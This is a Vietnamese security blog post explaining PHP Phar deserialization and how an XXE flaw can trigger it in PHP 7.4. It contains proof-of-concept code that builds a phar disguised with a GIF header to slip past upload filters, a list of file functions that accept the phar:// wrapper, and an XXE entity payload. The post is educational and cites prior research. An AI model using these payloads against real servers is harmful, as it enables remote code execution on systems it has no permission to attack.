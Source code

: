 ```yaml
---
# Documentation: https://sourcethemes.com/academic/docs/managing-content/

title: "Từ XXE Attack đến Phar Deserialization trong PHP 7.4"
subtitle: ""
summary: "Mình tình cờ đọc được bài Out of Hand :: Attacks Against PHP Environments - phân tích những điểm đáng chú ý về bảo mật của PHP 7.4. Trong bài có đoạn viết về cách tận dụng lỗi XXE để kích hoạt Phar Deserialization. Mình sẽ trình bày lại theo cách hiểu của mình."
authors: [DoubleVKay]
tags: [php]
categories: []
date: 2020-10-27T00:55:55+07:00
lastmod: 2020-10-27T00:55:55+07:00
featured: false
draft: false

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder.
# Focal points: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight.
image:
  caption: ""
  focal_point: ""
  preview_only: false

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["internal-project"]` references `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
projects: []
---
```

Mình tình cờ đọc được bài <a href="https://srcincite.io/assets/out-of-hand-attacks-against-php-environments.pdf">Out of Hand :: Attacks Against PHP Environments</a> - phân tích những điểm đáng chú ý về bảo mật của PHP 7.4. Trong bài có đoạn viết về cách tận dụng lỗi <strong>XXE</strong> để kích hoạt <strong>Phar Deserialization</strong>. Mình sẽ trình bày lại theo cách hiểu của mình.</p>

## 1. Điều kiện khai thác lỗi
<ul>
<li>Tồn tại lỗi <strong>XXE</strong> (<code>libxml_disable_entity_loader=False</code>)</li>
<li><code>phar.readonly</code> phải được <code>disable</code> (mặc định trong php là <code>enable</code>).</li>
</ul>

## 2. Phar Deserialize

<p>Một cách tóm lược, <strong>Phar - PHP Archive</strong> là một dạng nén ứng dụng php vào 1 file thực thi duy nhất. Nó có thể được load thông qua wrapper <strong>phar://</strong>. Kỹ thuật <strong>Phar Deserialization</strong> là việc tận dụng unserialize phần Metadata trong Phar Manifest Format file để kích hoạt POP chains (cách hiện thực unserialize của Phar wrapper không phải trực tiếp thông qua <strong>unserialize()</strong> nên giữa chúng có đôi chút khác nhau). Tùy thuộc vào cách vận dụng mà việc deserialize có thể dẫn đến <strong>RCE</strong>.<br>
<img src="Screenshot from 2020-10-03 14-50-08.png" alt="Screenshot-from-2020-10-03-14-50-08"></p>
<p><strong>Minh họa kịch bản tấn công Phar Deserialize</strong>:</p>
<ol>
<li>Attacker tạo file <code>phar.phar</code> để upload lên server

```php
<?php $phar= new Phar('phar.phar'); // Khởi tạo phar
$phar->startBuffering();
$phar->addFromString('phar.txt', '<valid>test</valid>'); // Thêm file data vào phar
$phar->setStub('<?php __HALT_COMPILER(); ? >'); // Thiết lập STUB cho phar
class AnyClass{}
$object = new AnyClass; // Khởi tạo đối tượng POP chains
$object->data = "pwned!"; // Truyền data
$phar->setMetadata($object); // Thiết lập Metadata cho phar, đối tượng sẽ được lưu dưới dạng serialized trong phar
$phar->stopBuffering();
```
</li>
<li>Server gọi một hàm file operations, ví dụ <code>file_exist()</code>, thì sẽ kích hoạt deserialize bên trong <strong>Metadata</strong>

```php
<?php
libxml_disable_entity_loader(False);
// Class được tận dụng để khai thác POP chains
class AnyClass{
    function __destruct() {
        die($this->data);
    }
}
file_exists('phar://.//phar.phar/test.txt'); // Load file phar
</code></pre>
</li>
</ol>
<ul>
<li>Ở <strong>(1)</strong>, để thực hiện kỹ thuật này nay, cần phải đưa file phar lên phía server trước. Có thể thông qua tính năng upload file, ảnh,... Điểm cộng là <code>phar://</code> xử lý file không phụ thuộc vào phần mở rộng, và phần đầu format file phar là vùng <strong>STUB</strong> có thể được chỉnh sửa thành signature của file ảnh để bypass MIME và file extension restriction:<pre><code class="language-php">$phar = new Phar("phar.gif");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
...
rename('phar.phar','phar.gif');
```
</li>
<li>Ở <strong>(2)</strong>, có rất nhiều hàm file operation có thể tận dụng wrapper <code>phar://</code>. Dưới đây là một số gợi ý:

```php
include('phar://phar.phar/test.txt');
file_get_contents('phar://phar.phar/test.txt');
file_put_contents('phar://phar.phar/test.txt', '');
copy('phar://phar.phar/test.txt', '');
file_exists('phar://phar.phar/test.txt');
is_executable('phar://phar.phar/test.txt');
is_file('phar://phar.phar/test.txt');
is_dir('phar://phar.phar/test.txt');
is_link('phar://phar.phar/test.txt');
is_writable('phar://phar.phar/test.txt');
fileperms('phar://phar.phar/test.txt');
fileinode('phar://phar.phar/test.txt');
filesize('phar://phar.phar/test.txt');
fileowner('phar://phar.phar/test.txt');
filegroup('phar://phar.phar/test.txt');
fileatime('phar://phar.phar/test.txt');
filemtime('phar://phar.phar/test.txt');
filectime('phar://phar.phar/test.txt');
filetype('phar://phar.phar/test.txt');
getimagesize('phar://phar.phar/test.txt');
exif_read_data('phar://phar.phar/test.txt');
stat('phar://phar.phar/test.txt');
lstat('phar://phar.phar/test.txt');
touch('phar://phar.phar/test.txt');
md5_file('phar://phar.phar/test.txt');
gzfile('phar://phar.phar/test.txt');
gzopen('phar://phar.phar/test.txt','r');
readgzfile('phar://phar.phar/test.txt');
pg_trace('phar://phar.phar/test.txt');
ftp_get('phar://phar.phar/test.txt');
ftp_get($conn_id, 'phar://phar.phar/test.txt', $server_file);
ftp_nb_get($my_connection, 'phar://phar.phar/test.txt', "whatever", FTP_BINARY);
error_log('phar://phar.phar/test.txt');
```
</li>
</ul>
<p>Nhiều phết :v.</p>
<p>Như vậy, chỉ cần <code>phar.readonly=0</code> và attacker kiểm soát file path của một trong những hàm trên thì có thể thực hiện <strong>Phar Deserialization</strong>.</p>

## 3. XXE Trigger Phar Deserialization

<p>Tuy nhiên, không phải lúc nào chúng ta cũng có thể kiểm soát được file path trong các hàm trên. Việc tìm ra càng nhiều vector load <code>phar://</code> wrapper khác nhau, sẽ càng giúp tăng khả năng khai thác thành công. Giả sử chúng ta phát hiện 1 vector tấn công <strong>XXE</strong> trên server, không có <code>expect://</code> wrapper để <strong>RCE</strong>, không có service nào để tận dụng <strong>SSRF</strong>, thì lúc này việc có thể kích hoạt <strong>Deserializeation</strong> sẽ tăng rất nhiều cơ hội để leo thang impact.</p>
<p>Với cùng kịch bản tấn công ở phần 2, nhưng thay vì kiểm soát được input của <code>file_exists</code>, mà server lại tồn tại lỗi XXE, thì attacker vẫn có thể tấn công <strong>Phar Deserialzation</strong> thông qua <code>libxml</code>:</p>

```php
$xml = '<!DOCTYPE r [<!ELEMENT r ANY><!ENTITY sp SYSTEM "phar://phar.gif/test.txt"> ]><r>&amp;sp;</r>';
$test = new SimpleXMLElement($xml, LIBXML_NOENT, 0);
// Hoặc
simplexml_load_string($xml, LIBXML_NOENT);
// Hoặc
$dom = new DOMDocument();
$dom->loadXML($xml,LIBXML_NOENT);
```
<ul>
<li>Bên trong <a href="https://github.com/php/php-src/blob/master/ext/libxml/libxml.c">libxml.c</a> có đoạn gọi:</li>
</ul>

```c
xmlParserInputBufferCreateFilenameDefault(php_libxml_input_buffer_create_filename);
...
php_libxml_input_buffer_create_filename(const char *URI, xmlCharEncoding enc);
...
{
    ...
	if (LIBXML(entity_loader_disabled)) {
		return NULL;
	}
    ...
    context = php_libxml_streams_IO_open_read_wrapper(URI);
```

<p>là lý do vì sao cần <code>libxml_disable_entity_loader=False</code>. Vì trình độ pwn ~= 0 nên mình cũng không đào sâu hơn cách <code>libxml</code> thực thi nữa, mà chỉ trình bày ở mức vận dụng là chính.</p>
<p>Rõ ràng việc thực thi được <strong>deserialize</strong> sẽ dễ dẫn đến những impact cao hơn. Có thể vận dụng các Gadget Chains đã được tìm thấy trước đó trong các framework như Laravel, Wordpress, CodeIgniter, ... (<a href="https://github.com/ambionics/phpggc">PHPGGC</a> hỗ trợ rất tốt cho việc này). Hoặc tự mình tìm một Gadget Chain mới luôn thì càng tuyệt vời! :d.</p>

## Kết luận

<p>Như vậy, mình vừa trình bày lại kỹ thuật <strong>Phar Deserialization</strong> với nhiều vector khác nhau, và một vector tấn công thông qua <strong>XXE</strong>. Đây sẽ là một hướng exploit đáng để thử khi tìm được lỗ hổng <strong>XXE</strong> trên hệ thống.</p>

## References

<ul>
<li><a href="https://raw.githubusercontent.com/s-n-t/presentations/master/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf">https://raw.githubusercontent.com/s-n-t/presentations/master/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf</a></li>
<li><a href="https://medium.com/@knownsec404team/extend-the-attack-surface-of-php-deserialization-vulnerability-via-phar-d6455c6a1066">https://medium.com/@knownsec404team/extend-the-attack-surface-of-php-deserialization-vulnerability-via-phar-d6455c6a1066</a></li>
<li><a href="https://files.ripstech.com/slides/PHP.RUHR_2018_New_PHP_Exploitation_Techniques.pdf">https://files.ripstech.com/slides/PHP.RUHR_2018_New_PHP_Exploitation_Techniques.pdf</a></li>
</ul>